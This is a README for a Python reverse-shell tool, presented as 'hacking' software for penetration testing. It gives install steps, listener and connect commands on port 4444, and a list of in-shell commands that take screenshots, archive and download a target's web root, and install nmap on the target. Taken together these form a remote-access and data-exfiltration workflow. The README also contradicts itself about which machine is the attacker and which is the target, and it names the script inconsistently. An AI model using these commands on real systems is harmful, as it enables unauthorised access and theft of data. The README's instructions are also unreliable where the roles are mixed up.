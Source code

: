 # Python Reverse Shell Hacking
![carbon](https://github.com/user-attachments/assets/c6c5c0ac-6b10-42e4-aed8-0dd5249e5124)

## This tool is designed for:
* Penetration testing ⚔️
* Remote administration 🖥️
* File transfer between systems 📁
* Network troubleshooting 🌐

## Security Features

🔒 Port Customizable
- Can use any port (1-65535)

⚠️ Error Handling
- Clear error notification
- Doesn't crash when command fails

📜 Logging (In advanced version)
Records all activities to a log file

## ⚙️ Dependensi
```console
pip install colorama
```

##  🛠 Installation

1️⃣ System Requirements
* Python 3.x installed
* Terminal/command prompt access
* Internet connection (for dependency installation)

2️⃣ Installation Steps

💻 Linux/macOS
```console
# 1. Clone repositori (if any) or copy the script to file .py
git clone https://github.com/hidayat-tanjung/revershe.git  # Replace with original repo if available
cd reverse-shell

# 2. Install dependensi (just colorama)
pip3 install colorama

# 3. Grant execution permission
chmod +x reverse.py  # Replace with your script file name

# 4. Run the tool
./reverse_shell.py
```
🪟 Windows (PowerShell)
```console
# 1. Save script as `reverse_shell.py`

# 2. Install dependencies
pip install colorama

# 3. Run the tool
python reverse_shell.py
```

🔌 Mode Listener (Server)
```console
./reverse_shell.py -l -p 4444  # Listen for connections on port 4444
```
Use this on attacker machine.

🎯 Mode Connect (Client)
```console
./reverse_shell.py -c 192.168.1.100 -p 4444  # Contact the listener on the target IP
```
Run this on the target machine to connect to the listener.

If run without arguments, the tool will display an interactive menu:
```console
./reverse_shell.py 
```
Select an option:

* `Start Listener` (Start the server)
* `Connect to Target` (Contact the server)
* `Show Help` (Instructions for use)

Usage example:

- Select option 1 (Start Listener)
- Enter the port (eg 4444)
- On the target computer will appear:
```console
[*] Listening on port 4444
```
As a Listener (Target):
```console
python3 reverse.py -l -p 4444
```
Output 
```console
[*] Listening on port 4444
[+] Connection from [IP_ATTACKER]
```
As an Attacker:
```console
python3 reverse.py -c [IP_TARGET] -p 4444
```
Output 
```console
[*] Connected to [IP_TARGET]:4444
shell>
```

## Fitur 
```console
shell> upload /path/lokal/file.txt
shell> download /path/remote/file.txt
shell> download /path/remote/folder  # Untuk direktori
shell> help       # Menampilkan bantuan
shell> sysinfo    # Info sistem target
shell> ls         # List direktori target
shell> cd /path   # Ganti direktori
shell> exit       # Keluar
shell> help       # Menampilkan bantuan
shell> sysinfo    # Info sistem target
shell> ls         # List direktori target
shell> cd /path   # Ganti direktori
shell> exit       # Keluar
shell> whoami
shell> ipconfig/ifconfig
shell> cd /path
shell> ls -la
shell> sysinfo  # Menampilkan info sistem target
shell> screencap -o /tmp/screen.png
shell> download /tmp/screen.png
shell> tar -czf /tmp/data.tar.gz /var/www/html
shell> download /tmp/data.tar.gz
shell> apt-get update && apt-get install -y nmap
```
## ⚡ Additional Features
- Transfer File
  - `upload file.txt` → Upload files to target
  - `download /path/file` → Download files from target
- Command Execution
  - Run regular shell commands(`ls, whoami, dll`.)
- Auto Compression
  - The folder will be compressed so `.tar.gz` before sending

📜 License
MIT License - Free for personal and commercial use

[![GitHub](https://img.shields.io/badge/GitHub-View_Project-blue?logo=github)](https://github.com/hidayat-tanjung/revershe)
